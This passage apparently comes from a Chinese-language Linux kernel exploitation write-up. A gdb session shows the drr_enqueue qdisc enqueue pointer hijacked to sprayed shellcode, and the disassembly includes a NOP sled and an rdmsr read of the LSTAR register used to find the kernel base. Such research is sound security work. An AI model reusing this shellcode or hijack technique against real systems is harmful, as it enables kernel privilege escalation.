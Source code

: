   ‍

  在 drr\_enqueue 中下断点打印 cl->qdisc->enqueue 处的指令：

```plain
(gdb) list
343                             qdisc_qstats_drop(sch);
344                     __qdisc_drop(skb, to_free);
345                     return err;
346             }
347
348             first = !cl->qdisc->q.qlen;
349             err = qdisc_enqueue(skb, cl->qdisc, to_free);
350             if (unlikely(err != NET_XMIT_SUCCESS)) {
351                     if (net_xmit_drop_count(err)) {
352                             cl->qstats.drops++;
(gdb) p cl
$3 = (struct drr_class *) 0xffff88813720ba00
(gdb) p cl->qdisc
$4 = (struct Qdisc *) 0xfffffe000003df58
(gdb) p cl->qdisc->enqueue
$6 = (int (*)(struct sk_buff *, struct Qdisc *, struct sk_buff **)) 0xffffffffcc000800
(gdb) x/4i 0xffffffffcc000800
   0xffffffffcc000800:  nop
   0xffffffffcc000801:  nop
   0xffffffffcc000802:  nop
   0xffffffffcc000803:  mov    bl,0xb8
    .......................
   .......................
   0xffffffffcc001e15:  mov    bl,0xb8
   0xffffffffcc001e17:  nop
   0xffffffffcc001e18:  nop
   0xffffffffcc001e19:  nop
   0xffffffffcc001e1a:  mov    bl,0xb8
   0xffffffffcc001e1c:  nop
   0xffffffffcc001e1d:  nop
   0xffffffffcc001e1e:  nop
   0xffffffffcc001e1f:  mov    bl,0xb8   ---> 真实 shellcode 部分
   0xffffffffcc001e21:  xor    ecx,ecx
   0xffffffffcc001e23:  nop
   0xffffffffcc001e24:  cmp    al,0xb8
   0xffffffffcc001e26:  xor    edx,edx
   0xffffffffcc001e28:  nop
   0xffffffffcc001e29:  cmp    al,0xb8
   0xffffffffcc001e2b:  mov    cl,0xc0
   0xffffffffcc001e2d:  nop
   0xffffffffcc001e2e:  cmp    al,0xb8
   0xffffffffcc001e30:  shl    ecx,0x18
   0xffffffffcc001e33:  cmp    al,0xb8
   0xffffffffcc001e35:  mov    cl,0x82
   0xffffffffcc001e37:  nop
   0xffffffffcc001e38:  cmp    al,0xb8
   0xffffffffcc001e3a:  rdmsr  
   0xffffffffcc001e3c:  nop
   0xffffffffcc001e3d:  cmp    al,0xb8
   0xffffffffcc001e3f:  xor    ecx,ecx
   0xffffffffcc001e41:  nop
   0xffffffffcc001e42:  cmp    al,0xb8
   0xffffffffcc001e44:  mov    cl,0x20
   0xffffffffcc001e46:  nop
   0xffffffffcc001e47:  cmp    al,0xb8
   0xffffffffcc001e49:  shl    rdx,cl
   0xffffffffcc001e4c:  cmp    al,0xb8
   0xffffffffcc001e4e:  add    rdx,rax
   0xffffffffcc001e51:  cmp    al,0xb8
```